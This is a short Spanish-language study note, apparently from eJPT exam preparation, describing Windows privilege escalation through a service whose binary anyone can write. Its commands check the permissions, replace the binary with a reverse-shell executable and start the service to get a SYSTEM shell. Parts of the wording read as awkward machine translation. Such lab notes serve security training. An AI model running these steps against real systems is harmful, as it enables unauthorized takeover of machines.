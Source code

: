 - Consulta el "filepermsvc" servicio y noque se ejecuta con privilegios SYSTEM (SERVICE_START_NAME).

```
sc qc filepermsvc
```

- Usando accesschk.exe, tenga en cuenta que el archivo binario de servicio (BINARY_PATH_NAME) es escribible por todos:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

- Copie el ejecutable reverse.exe que creó y reemplace el filepermservice.exe con él:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

```
- Inicie un oyente en Kali y luego comience el servicio para generar una carcasa inversa que funcione con privilegios de SISTEMA:

```
net start filepermsvc
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Service Exploits - Insecure Service Permissions]]
[[Service Exploits - Unquoted Service Path]] 
[[Service Exploits - Weak Registry Permissions]]
[[Generate a Reverse Shell Executable]]